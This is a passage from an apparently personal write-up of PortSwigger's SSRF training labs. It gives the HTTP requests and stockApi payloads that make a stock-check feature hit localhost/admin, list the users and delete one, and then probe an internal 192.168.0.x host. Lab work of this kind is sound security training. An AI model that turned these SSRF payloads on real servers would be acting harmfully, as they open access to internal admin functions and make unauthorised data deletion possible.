 <span style="color:yellow;font-weight:700;font-size:30px">
Server-side request forgery (SSRF) - 5 Labs
</span>
https://portswigger.net/web-security/ssrf


# ***1. Lab: Basic SSRF against the local server***
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost

Goal:
access the admin interface at http://localhost/admin and delete carlos

original query:
```htm
POST /product/stock HTTP/1.1
Host: ac3f1f371fca19aac066a754004e005a.web-security-academy.net
...

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D4%26storeId%3D1
```

**payload 1**:
stockApi=http://localhost/admin

response:
```htm
<h1>Users</h1>
<div>
    <span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
```
payload 2:
stockApi=http://localhost/admin/delete?username=carlos

**deleted**!


# ***2. Lab: Basic SSRF against another back-end system***
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system\

to solve the lab:scan 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 

1. **request** the same vulnarbility as in lab 1:
    POST /product/stock HTTP/1.1
    ...

    stockApi=http://192.168.0.1/admin

response: 

```htm
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 102

"Invalid external stock check url 'Illegal character in path at index 24: http://192.168.0.1/admin
'"
```
